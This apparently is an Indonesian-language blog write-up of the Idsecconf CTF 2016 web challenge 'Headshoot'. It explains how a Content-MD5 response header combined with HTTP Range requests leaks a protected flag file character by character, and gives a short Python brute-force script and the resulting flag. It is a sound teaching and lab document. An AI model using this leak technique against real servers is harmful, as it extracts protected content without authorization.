 ```yaml
---
layout: post
title: "Idsecconf CTF 2016 : Headshoot - 200"
description: "Idsecconf CTF 2016 Online"
headline: 
modified: 2016-08-29
date: 2016-08-29
category: CTF
tags: [idsecconf,Web Exploitation]
imagefeature: /images/idsecconf.jpg
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

`http://139.59.245.67:8000/`

### Solusi :

Di berikan sebuah website dan lokasi flag di beritahu ada di `http://139.59.245.67:8000/flag.txt`
namun kita hanya bisa menggunakan Method `OPTIONS,HEAD` 

menurut w3 protocol : `The HEAD method is identical to GET except that the server MUST NOT return a message-body in the response. `

`Content-MD5, A Base64-encoded binary MD5 sum of the content of the request body, Content-MD5: Q2hlY2sgSW50ZWdyaXR5IQ== Obsolete`

`echo 'T/JeCTIbbkLdlRS/YqTvHw==' | base64 -d | xxd`

![Headshoot MD5](/images/headshoot_md5.png)

ditemukan md5 `4ff25e09321b6e42dd9514bf62a4ef1f` tidak bisa di decrypt secara online. dan setelah
surving di wikipedia ternyata kita bisa menambahkan header Range: bytes 0-1. dan akan bisa mengatur Response header
dengan menambahkan range kita bisa melakukan bruteforce terhadap MD5 nya perkarakter.

```python
import requests
import hashlib
import string
import binascii


url = 'http://139.59.245.67:8000/flag.txt'

flag = ''


while True:
    headers = {'Range': 'bytes=0-'+str(len(flag)+1)}
    r = requests.head(url, headers=headers)
    md5 = r.headers.get('Content-MD5')
    md5 = binascii.a2b_base64(md5)
    md5 = binascii.hexlify(md5)
    print md5
    for c in string.printable:
        newflag = flag+c
        newmd5 = hashlib.md5(newflag).hexdigest()
        if newmd5==md5:
            flag+=c
            print flag
            break    

```

dan di dapatkan flag : `flag{HaveYouEverSeenMD5ContentHeaderBeforeThis?}`